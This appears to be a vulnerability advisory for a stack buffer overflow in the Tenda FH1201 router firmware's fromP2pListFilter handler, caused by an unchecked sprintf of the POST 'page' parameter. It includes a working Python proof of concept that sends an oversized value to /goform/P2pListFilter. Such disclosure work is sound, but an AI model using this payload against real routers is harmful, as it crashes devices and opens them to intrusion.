 ## Overview

- Firmware download website: https://www.tendacn.com/download/detail-3322.html

## Affected version

FH1201 Firmware  V1.2.0.14(408)

## Vulnerability details

The Tenda FH1201 Firmware  V1.2.0.14(408) has a stack overflow vulnerability located in the `fromP2pListFilter` function. This function accepts the `page` parameter from a POST request. The statement `sprintf(v11, "p2p.asp?page=%s", v8);` leads to a buffer overflow. The user-supplied `page` can exceed the capacity of the `v11` array, thus triggering this security vulnerability.

![image-20240731140850677](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240731140850677.png)

## POC

```python
import requests

ip = "192.168.84.101"
url = "http://" + ip + "/goform/P2pListFilter"
payload = b"a"*1000

data = {"page": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240731133213595](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240731133213595.png)